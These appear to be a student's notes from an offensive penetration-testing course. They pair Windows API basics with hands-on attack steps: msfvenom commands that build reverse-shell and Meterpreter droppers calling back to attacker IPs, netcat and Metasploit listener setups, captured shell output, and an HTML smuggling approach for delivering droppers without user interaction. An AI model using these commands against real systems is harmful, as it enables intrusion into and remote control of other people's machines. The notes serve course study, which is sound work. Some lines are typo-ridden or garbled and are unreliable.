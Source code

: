 password: @Hide01

# chapter 3 Windows concepts

1. WOW  - Windows on windows. Most windows mahine sise the 64 bit version of the Windows Operating system. However many applications are still 32 bit.

Ntdll.dll, Wow64.dll, Wow64Win.dll and Wow64Cpu.dll - used for this emuation.

2. WIn32 API -  various applications in a variety of programming languages ranging from assembly to C# but many of those make use of the windows provided built in programming interfaces.

Many  of  the  Win32  APIs  are  documented  by  Microsoft.  One  simple  example  is  the 
GetUserNameA33 API exported by Advapi32.dll which retrieves the name of the user executing the 
function. 

```
BOOL GetUserNameA( 
  LPSTR   lpBuffer, 
  LPDWORD pcbBuffer 
);
```

In this example, the API requires two arguments. The first is an output buffer of type LPSTR which 
is the Microsoft term for a character array. The second argument is a pointer to a DWORD which 
is a 32-bit unsigned integer. The return value from the API is a boolean.

Listing 2 above shows the prototype for GetUserNameA, where the suffix “A” indicates the ASCII 
version of the API. Listing 3 below shows the prototype for GetUserNameW, in which the “W” 
suffix (for “wide char”) indicates Unicode: 

```
BOOL GetUserNameW( 
  LPWSTR  lpBuffer, 
  LPDWORD pcbBuffer 
); 
```
3.  Windows Registry : Windows Registry to support local and global variables. 

4. page 31/704

Staged vs Non staged payloads

windows/shell/reverse_tcp is a simple non staged reverse TCP shell payload
Staged payloads contain a minimal amoutn of code thta tperforms a callback then retrieves any remaining acode and executes it in th etargets memory.

the differenece in the delimiters
s
windows/x64/meterpreter_reverse_https - meterpreter shell - full payload
windows/x64/meterpreter/reverse_https - Reflective dll staged - staged payload

5. Building a dropper

sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=4444 -f ee -o /var/ww/html/shell.exe

sudo service apache2 start

sudo nc -lnvp 4444 to start a reverse shell

6. Creating a staged dropper

So that the size is less.

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.6.10 LPORT=4444 -f exe -o /var/www/html/msfnonstaged.exe

```
kali@kali:~/cyber/pen300$ sudo nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.6.10] from (UNKNOWN) [10.10.136.133] 53944
��ao��H▒[�5x���h�5��H�����h�*Q&�,�+�0�/�$�#�(�'�
�       ����=<5/
F
▒
#�whoami
```

- creating a listener
```
sudo msfconsole -q

msf5 > use multi/handler

set payload windows/x64/meterpreter/reverse_https

set lhost 10.10.6.10

set lport 4444

exploit
```

for nonstaged payload you can get reverse connect on nc -lnvp 4444
for staged payloads we can get reverse shell on msfconsole

### Important commands for DIDR

listing processes
>tasklist | findstr pid
>taskkill /f /pid 123

netstat 
>netstat -aon | findstr "4444"
  -TCP    10.10.136.133:59795    10.10.6.10:4444        SYN_SENT        9972

Removing the entire directory
>RMDIR /s twint 

### HTML Smuggling

- attackers may use discreet delivery methods, embedding a link in an emal. using a javascript dropper code in the HTML itseld. we can create a simple hyperlink and set th edownload attribute anchor tag
```html
<html>
  <body>
    <a href="/msfstaged.exe" download="msfstaged.exe> DownloadME </a>
  </body>
</html>
```
However this makes the user manually click on the link. Instead we can make the lnk embedded javascript file.

we will create a Base64 meterpreter.


### HTML smuggling directly

Although this works well, it exposes the filename and extension of the dropper and requires the 
user to manually click on the link. To avoid this we can trigger the download from an embedded 
JavaScript file. This method feeds the file as an octet stream and will download the assembled 
file without user interaction.

### space racoon advice

https://spaceraccoon.dev/offensive-security-experienced-penetration-tester-osep-review-and-exam

